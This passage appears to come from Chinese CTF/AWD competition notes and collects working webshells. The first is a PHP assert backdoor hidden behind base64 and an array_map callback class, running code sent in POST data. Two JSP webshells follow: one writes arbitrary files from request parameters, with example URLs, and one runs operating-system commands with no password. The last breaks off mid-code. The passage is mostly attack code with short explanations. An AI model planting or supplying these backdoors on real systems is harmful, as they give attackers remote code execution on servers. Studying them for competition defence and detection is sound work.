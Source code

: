 关键代码在最后两行，最后一行比较好理解，拼接`$_POST[520]`第三行的话主要在于，先去拼接一段加密的字符串，之后再进行base64的解密，取一下字符串

```
YXNzZXJ0 #base64
assert #base64解密后
```

即为：

```php
<?php assert($_POST[520]);?>
```

#### 4

```php
class ciscn_nt {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new ciscn_nt(assert,array($_POST['x']));
$p1->test();
```

用了array_map()这一个回调函数在`$p1`处定义了`$a`和`$b`的值分别为assert和$_POST[‘x’]
最后再调用test()函数触发array_map()，从而达到执行我们POST传输的代码的目的，简单来说就是是实现:

```php
<?php assert($_POST['x']);?>
```

[一次内部AWD记录](http://www.pdsdt.lovepdsdt.com/index.php/2020/10/11/awd-neibu/)
[CISCN_Final——AWD&CTF部分Writeup](http://www.pdsdt.lovepdsdt.com/index.php/2020/10/02/ciscn_final-awd-ctf/)
## jsp_webshell
写文件
```java
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
```
保存为1.jsp，提交url为`http://localhost/1.jsp?f=1.txt&t=hello`
访问`http://localhost/1.txt` 出来hello

无密码直接命令执行：
```java
<%@ page import="java.util.*,java.io.*,java.net.*"%>  <HTML><BODY>
<form action="" name="myform" method="POST" style="box-sizing: border-box; margin-top: 0px;"><input name="cmd" type="text" style="box-sizing: border-box !important; color: var(--text-color); font: inherit; margin: 0px;  padding-left: 4px; border: 1px solid rgba(146, 146, 146, 0.56);"> <input value="Send" type="submit" style="box-sizing: border-box !important; color: var(--text-color); font: inherit; margin: 0px;  padding-left: 4px; border: 1px solid rgba(146, 146, 146, 0.56); -webkit-appearance: button; cursor: pointer;"></form>

<pre class="" style="box-sizing: border-box; overflow: auto; font-family: var(--monospace); margin-bottom: 0px; width: inherit; white-space: pre-wrap;"><%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
```
